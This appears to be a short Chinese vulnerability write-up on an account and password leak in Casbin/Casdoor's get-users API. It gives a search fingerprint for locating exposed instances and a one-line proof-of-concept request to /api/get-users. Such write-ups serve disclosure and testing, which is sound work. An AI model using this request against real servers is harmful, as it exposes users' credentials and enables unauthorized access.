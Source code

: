 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](images/202205241432624.png)